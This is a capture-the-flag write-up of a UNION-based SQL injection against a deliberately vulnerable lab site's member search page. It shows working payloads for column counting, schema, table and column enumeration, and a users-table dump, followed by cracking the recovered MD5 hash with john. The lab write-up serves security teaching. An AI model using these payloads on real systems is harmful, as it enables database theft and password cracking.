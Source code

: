 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL advanced<br>
<b>attacked site</b>: http://borntosec.42/?page=members

## Exploit
On the member page, there's a search bar. After entering a string to search for, the backend likely executes a query to the database to retrieve and display data. To check if SQL injection is possible, we pass a punctuation mark (<code>'</code>) as input:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This input disrupts the database and generates an error, indicating that SQL injection may be possible. Next, we’ll determine the number of columns in the table using the <code>ORDER BY</code> clause. We increment the column index to identify when the table ends:
``` SQL
1 OR 1=1 ORDER BY 1-- -
1 OR 1=1 ORDER BY 2-- -
1 OR 1=1 ORDER BY 3-- -
```
The third column is inaccessible, meaning the table has 2 columns. We can now check the database version and username:
``` sql
1 OR 1=1 UNION SELECT @@version,user()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT @@version,user()-- - 
First name: 5.5.64-MariaDB-1ubuntu0.14.04.1
Surname : borntosec@localhost
```
Next, we retrieve the names of all database schemas:
``` sql
1 OR 1=1 UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -
```
└─     Output:
```
information_schema
Member_Brute_Force
Member_Sql_Injection
Member_guestbook
Member_images
Member_survey
```
We proceed by identifying the current database:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
Member_Sql_Injection
```
With the current database identified, we search for a table that might contain the flag:
``` sql
1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -
```
└─     Output:
```
[...]
ID: 1 OR 1=1 UNION SELECT TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES--  
First name: users
Surname : Member_Sql_Injection
[...]
```
Next, we check the columns in this table:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: user_id
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: first_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: last_name
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: town
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: country
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: planet
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: Commentaire
Surname : users

ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
First name: countersign
Surname : users
[...]
```
Enumerating the columns manually is time-consuming, so we concatenate the column values and display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
First name: 1
Surname : FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```
The output provides a hashed password. We use <code>hash-identifier</code> to determine the hash type:
``` shell
└─$ hash-identifier sql_hash.txt                                                     
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 5ff9d0165b4f92b14994e5c685cdce28

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Knowing the hash type, we brute-force the password using <code>john</code>:
``` shell
└─$ john sql_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/5million.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
FortyTwo         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:22) 7.142g/s 16457p/s 16457c/s 16457C/s amore..marianne
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password in lowercase using SHA-256:
``` shell
└─$ echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```
## Flag
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
